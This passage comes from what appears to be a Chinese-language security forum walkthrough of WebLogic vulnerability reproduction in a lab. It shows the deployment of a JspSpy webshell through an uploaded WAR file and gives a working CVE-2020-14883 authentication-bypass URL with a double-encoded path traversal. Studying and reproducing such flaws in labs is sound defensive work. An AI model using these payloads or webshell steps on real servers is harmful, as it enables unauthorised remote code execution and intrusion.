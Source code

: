 ![image-20210814212434754](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6faed4a99783e57fcfc61cd59e4e17c24f80a719.png)

![image-20210814212521338](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-878abfd3a4dbfda6482ae1702a424c69b0697fbe.png)

这里war包成功上传

![image-20210814212645817](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-dedeaf0c50938c5b881cb5fa0ed6eded67dde156.png)

将其作为应用程序安装

![image-20210814212917962](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-41d954c334dfa932d3b66440806d78d8a7bf7be7.png)

点击完成。

![image-20210814213012827](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-cb31b63a29da5a5cb7cc048e69023f895e82694e.png)

可以看见部署成功，访问url

```php
http://192.168.0.105:7001/zcc/JspSpy.jsp
```

输入密码，即可成功拿到webshell

![image-20210814214304327](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-32e8d88028b7bb0a08fcbe637959a84d9ce36407.png)

#### 安全防护

避免出现弱口令

#### 9.Weblogic Console HTTP协议远程代码执行漏洞(CVE-2020-14882/CVE-2020-14883)

##### 漏洞简介

未经身份验证的远程攻击者可能通过构造特殊的 HTTP GET请求，利用该漏洞在受影响的 WebLogic Server 上执行任意代码。它们均存在于WebLogic的Console控制台组件中。此组件为WebLogic全版本默认自带组件，且该漏洞通过HTTP协议进行利用。将CVE-2020-14882和CVE-2020-14883进行组合利用后，远程且未经授权的攻击者可以直接在服务端执行任意代码，获取系统权限。

##### 影响版本

```php
10.3.6.0
12.1.3.0
12.2.1.3
12.2.1.4
14.1.1.0
```

##### 漏洞复现

CVE-2020-14883: 权限绕过漏洞的poc：

```php
http://192.168.0.105:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=AppDeploymentsControlPage&handle=com.bea.console.handles.JMXHandle%28%22com.bea%3AName%3Dbase_domain%2CType%3DDomain%22%29
```
